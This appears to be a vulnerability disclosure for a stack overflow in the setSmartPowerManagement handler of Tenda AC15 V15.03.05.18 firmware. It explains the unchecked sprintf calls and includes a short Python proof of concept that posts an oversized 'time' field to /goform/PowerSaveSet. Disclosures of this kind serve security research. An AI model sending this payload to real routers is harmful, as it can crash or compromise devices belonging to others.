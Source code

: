 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `setSmartPowerManagement` function. The `v13` variable receives the `time` parameter from a POST request and `v13` is directly parsed into the `v10`, `v9`, `v8` and `v7`. However, since the user can control the input of `v13`, the statement `sprintf(s, "%s:%s", (const char *)v10, (const char *)v9); sprintf(v5, "%s:%s", (const char *)v8, (const char *)v7);` can cause a buffer overflow by  `v10`, `v9`, `v8` and `v7`. 

![image-20240305230652504](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305230652504.png)

![image-20240314225317309](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314225317309.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/PowerSaveSet"
payload = 'a'*1000 + ':aaaa-bbb:1'

data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314225354323](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314225354323.png)
